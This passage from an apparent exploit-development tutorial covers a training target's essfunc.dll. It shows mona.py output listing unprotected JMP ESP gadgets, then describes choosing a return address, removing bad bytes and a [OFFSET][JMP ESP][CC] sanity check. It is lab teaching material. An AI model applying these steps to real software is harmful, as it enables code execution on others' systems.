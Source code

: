 ```
625011D3     0x625011d3 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011DF     0x625011df : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011EB     0x625011eb : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011F7     0x625011f7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
62501203     0x62501203 : "\xFF\xE4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
62501205     0x62501205 : "\xFF\xE4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
0BADF00D       Found a total of 9 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:00.313000
```
Note the lack of protections for these functions again.  
In this instance, the first instruction will work: `0x625011AF`.

### 4. Remove bad bytes
Next up, find bad bytes that cannot be used with the exploit. The null byte is a given for strcpy.  
In this instance, no other bytes need to be removed.

### 5. Sanity check JMP ESP
This is done by sending the payload: [OFFSET][JMP ESP][CC INTERRUPTS]

![UI Screenshot](img/02.png)  
